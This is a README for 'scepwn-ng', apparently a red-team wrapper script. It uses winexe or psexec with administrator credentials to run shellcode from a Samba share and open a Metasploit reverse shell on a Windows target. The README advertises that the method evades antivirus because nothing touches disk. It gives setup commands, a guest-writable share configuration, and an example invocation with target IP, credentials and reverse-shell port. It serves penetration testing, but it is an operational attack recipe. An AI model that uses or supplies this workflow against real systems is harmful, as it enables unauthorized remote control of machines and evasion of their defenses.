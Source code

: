 scepwn-ng
@thejosko <jskorich@secureworks.com>

INTRODUCTION
============
scepwn-ng is a wrapper script for launching winexe/psexec at a target, which then runs shellcode exec from a samba share with a msf generated reverse shell. As the executable never touches disk, it is highly effective at evading a/v. 


INSTALL
=======
Basic Setup for a kali box (skyfire):
```
		$ cd /opt
		$ git clone https://github.com/CoreSecurity/impacket.git
		$ cd impacket; python setup.py install
		$ cd /opt; git clone https://github.com/inquisb/shellcodeexec.git
```
If not using Kali, you will also need to install metasploit and winexe, as well as manually setup the samba share:

Add a share to your samba conf - usually located at /etc/samba/smb.conf
```
[sce_share]
		browseable = no
		path = /var/sce_share
		guest ok = yes
		read only = no
		create mask = 0600
		directory mask = 0700
```

USAGE
=====

		./scepwn-ng.rb [optional]

**Example:**

		./scepwn-ng.rb -u 'Administrator%Password1' -t 10.1.1.1 -s psexec -p 4444

Note - All options are just that.. optional. If you leave anything out it will ask you for it.


**Options:**

		-t, --target TARGET              
																		Target IP address
		-u, --user CREDENTIALS           
																		Credentials in DOMAIN/USERNAME%PASSWORD format
		-p, --port PORT                  
																		Reverse shell port number (default: 443)
		-s, --service SERVICE            
																		winexe or psexec (default: winexe)
		-h, --help                       
																		Display this screen
             
